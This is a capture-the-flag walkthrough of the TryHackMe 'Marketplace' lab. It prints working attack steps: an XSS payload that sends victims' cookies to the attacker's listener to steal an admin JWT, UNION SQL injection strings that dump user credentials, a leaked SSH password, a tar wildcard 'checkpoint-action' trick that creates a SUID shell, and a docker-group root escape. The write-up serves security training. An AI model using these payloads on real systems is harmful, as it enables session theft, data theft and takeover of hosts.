 # The Marketplace

**Room Link:** [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## TCP/32768 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

## XSS - Steal JVT

[https://jwt.io/](https://jwt.io/)

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>





I tried updating the token it didn't work

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>



Next we're going to try to steal the JWT from another user.

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
<script>document.location='http://$KALI:4444/XSS/grabber.php?c='+document.cookie</script>
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

This was annoying because if I went to my posts it wouldn't work so I went to Jakes post and changed the number from 2 to 6 to get to the report page. Then just clicked the report button

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

we got a token from a user that isn't us

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>



We can see it is from Michael who is an admin.

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>





Sent again but this time just forwarded the request so we could see what that script was doing

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>



The script was printing the flag

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

This wasn't working before but after next time I went to this box tried I could just update the cookie from the browser and it worked.

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

**Brower cookie**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDE1MjgzODN9.O8218jJ0nmWedeewklX6fkb9sjlgH81ciU7dJG5l9YY
```



We add a order by and increase the number until we get an error to reveal how many fields there are.

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

After 5 it give us an error so we know there are four fields

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

We do a union select, first to try to show our 1s which isn't working because the first part of the statement runs successfully so theres no where to put our info

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

To work around this we make the userid as 0 which probably doesn't exist and we can start seeing our 1s

<figure><img src="../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Get Version

<figure><img src="../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>



Get Database

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>





Get tables

```
UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

Get All tables by concat

```
-1 UNION SELECT group_concat(table_name),1,1,1%20 FROM information_schema.tables WHERE table_schema =database()
```

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>





Get Columns for table users

```
-1%20UNION%20SELECT%20group_concat(column_name,column_type),1,1,1%20%20FROM%20information_schema.columns%20WHERE%20table_schema=marketplace
```

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Get Columns for table items

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='items' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='messages' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1%20UNION%20SELECT%20group_concat(message_content),1,1,1%20FROM%20messages
```

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>



Get usernames and passwords. The passwords aren't too useful at this point but now we have some usernames.

```
-1%20UNION%20SELECT%20group_concat(username,%27|%27,password),1,1,1%20FROM%20users
```

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh jake@$VICTIM
Password: @b_ENXkGYUCAv3zJ
```

<figure><img src="../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

## **Lateral Movement**

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

Jake can run a backup script as michael. The script is using a wildcard which we manipulate.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can trick the script to run this to get a shell by making empty files with similar names

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /opt/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh shell.sh
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

cp /bin/bash /opt/backups/michealbash;
chmod +xs  /opt/backups/michealbash;
```

**Victim**

```
chmod +x shell.sh 
rm -f ../backup.tar 
sudo -u michael /opt/backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **Privilege Escalation**

**Victim(micheal)**

```
id
find / -name docker.sock 2>/dev/null
docker images
docker run -it -v /:/host/ alpine chroot /host/ sh
```

michael is part of the docker group so it appears we're in a pod

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There a few images to test from. I just ran the last command above and changes the image name until it worked. Exploit worked with nginx and mysql images as well.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>







